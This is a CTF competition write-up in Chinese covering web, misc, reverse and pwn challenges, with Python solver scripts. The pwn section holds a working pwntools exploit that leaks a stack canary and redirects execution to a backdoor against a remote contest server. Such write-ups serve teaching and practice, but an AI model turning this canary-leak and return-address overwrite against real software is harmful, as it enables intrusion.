


---
title: 2020川渝个人赛-wp
categories: [CTF]
tags: [wp,pwn,re]

---
这个比赛简单，但是好久没有打ctf,感觉自己变废了<!--more-->
##  解题情况


## 解题过程

### Web

#### 1-1 目录扫描

按照经验，猜测robots.txt文件。读取后发现提示`'/Sec3et_in_h3r3/fl6g`



读取后发现flag。


### MISC

#### 2-3 0101

打开文本发现16进制数，用winhex写入，然后根据附件开头`50 4B 03 04 14 00 00 00 00 00` 判断文件为zip,且文件头损坏而打不开，因此修改`为50 4B 03 04 14 00 00 00 08 00`.在打开压缩包解压。发现一组黑白图片。编写脚本将黑色图片识别为1，将白色图片识别为0，将得到的二进制数转为字符从而得到flag


识别脚本如下：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   1.py
@Time    :   2022/09/14 14:29:19
@Author  :   lexsd6
'''
from PIL import Image

result= ""
for i in range(304):
    img = Image.open(f"{i}.png")
    im_RGB = img.convert("RGB") # 将图片转换为RGB模式
    r,g,b =im_RGB.getpixel((1,1)) #获得rgb值
    print(r,g,b)# 白色rgb值:(255,255,255)
    if r !=255: #255是白色
        result +="1"
    else:
        result +="0"

#将二进制转换为ascii码
for i in range(0,len(result),8):
    byte = result[i:i+8]
    print(chr(int(byte,2)),end="")
```


### REVERSE

#### 4-1 simple dispy 

跟着文档手搓python字节码。大致还原python 源代码为：

```python
arr=[47378,29475,46200,39869,67243,68695,73129,27171,53832,30653,60541,67276,58816,63571,50131,34471,67922,82293,33259,67538,57810,50339,34632,68754,83192,36077,60424,54547,56308,33565,69425,84024]

k=22643


flag=input()


for i in range(32):
    num=ord(flag[i])*255+k
    if(num!=arr[i]):
        print("Error")
        exit(0)
    print(i)
    k=(k+arr[i])&65535

print("Right,the flag is DASCTF{Input}")
```


从而逆向写出脚本：

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   t.py
@Time    :   2022/09/14 13:26:54
@Author  :   lexsd6
'''


arr=[47378,29475,46200,39869,67243,68695,73129,27171,53832,30653,60541,67276,58816,63571,50131,34471,67922,82293,33259,67538,57810,50339,34632,68754,83192,36077,60424,54547,56308,33565,69425,84024]

k=22643

"""
flag=input()


for i in range(32):
    num=ord(flag[i])*255+k
    if(num!=arr[i]):
        print("Error")
        exit(0)
    print(i)
    k=(k+arr[i])&65535

print("Right,the flag is DASCTF{Input}")

"""

flag=""
for i in range(32):
 flag+=chr(int((arr[i]-k)/255))
 k=(k+arr[i])%65536
print(flag)

```


### PWN

#### 5-1 ez_canary

```
[*] '/home/lexs/Desktop/pwntest/2022/cy/ez_canary/ez_canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

题目开了canary 和 nx，但是没开PIE.

但是通过逆向源代码和动态gdb，可以得知我们的输入的` Username`可以溢出到栈上，我们输入的password 可以覆盖 ` Username`的同时溢出到栈上。因此，我们合理布局code让` Username` 刚好把canary低位的'\x00'覆盖，从而泄露出canary。由于PIE未开，我们可以源文件后门，从而在Password 输入合理布局覆盖` Username`和canary，让程序流跳到我们后门上。（远程不知道为啥打不通，后赖用 ret 调节下栈 ）

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2022/09/14 10:21:45
@Author  :   lexsd6
'''

from pwn import * 
#from libcfind import *


""" 
0x000000000040142c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040142e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401430 : pop r14 ; pop r15 ; ret
0x0000000000401432 : pop r15 ; ret
0x000000000040142b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040142f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004011fd : pop rbp ; ret
0x0000000000401433 : pop rdi ; ret
0x0000000000401431 : pop rsi ; pop r15 ; ret
0x000000000040142d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
"""
local_mote=0
elf='./ez_canary'
e=ELF(elf)
context.arch=e.arch
context.log_level = 'debug'
ip_port=['43.143.139.234',50305]

debug=lambda gdb_cmd='': gdb.attach(p,gdb_cmd) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])


debug()
p.sendline('x'*0xa)
p.recvline()
cananry=(u64(p.recv(7)+'\x00'))*0x100
cd=(u64(p.recv(6)+'\x00'*2))*0x100
log.info(hex(cananry))
log.info(hex(cd))
#print(p.recvuntil('!Password:'))
sleep(0.1)
ret=0x000000000040101a
back=0x000000000401216
p.sendline('k'*(0x10+4)+p64(cananry)+p64(ret)*2+p64(back)*2)
p.interactive()
```

